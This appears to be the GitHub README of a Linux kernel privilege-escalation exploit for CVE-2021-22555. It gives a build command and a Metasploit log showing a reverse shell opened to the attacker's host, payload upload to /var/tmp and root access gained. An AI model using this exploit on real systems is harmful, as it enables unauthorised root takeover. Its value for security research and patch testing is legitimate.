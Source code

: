 # Netfilter_xtables_Heap_OOB_Write_Privilege_Escalation_CVE-2021-22555

LPE exploit for CVE-2021-22555. Tested on Ubuntu 20.04 kernel 5.8.0-48-generic.
The vulnerability was discovered by Andy Nguyen [@theflow0](https://twitter.com/theflow0).

Author: [Szymon Janusz](https://github.com/szymonj99)

For educational/research purposes only. Use at your own risk.

## Usage:

The exploit binary **must** be built on a Linux environment as it relies on Linux header files.

To build:
```
make ubuntu
```

To run:
```
msf6 exploit(linux/local/netfilter_xtables_heap_oob_write_priv_esc) > run

[*] Started reverse TCP handler on 192.168.1.145:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Target is running kernel release 5.8.0-48-generic.
[*] Dropping pre-compiled binaries to system...
[*] Writing '/var/tmp/flTJOaqhI' (734660 bytes) ...
[*] Uploading payload...
[*] Writing '/var/tmp/ckaFBkiL' (250 bytes) ...
[*] Running payload on remote system...
[*] Sending stage (3012548 bytes) to 192.168.1.67
[+] Deleted /var/tmp/flTJOaqhI
[+] Deleted /var/tmp/ckaFBkiL
[*] Meterpreter session 2 opened (192.168.1.145:4444 -> 192.168.1.67:43322) at 2021-09-28 14:20:41 +0100
[*] Payload executed!

meterpreter > getuid
Server username: root @ ubuntu-virtual-machine (uid=0, gid=0, euid=0, egid=0)
```

Checkout the writeup [CVE-2021-22555: Turning \x00\x00 into 10000$](https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html).
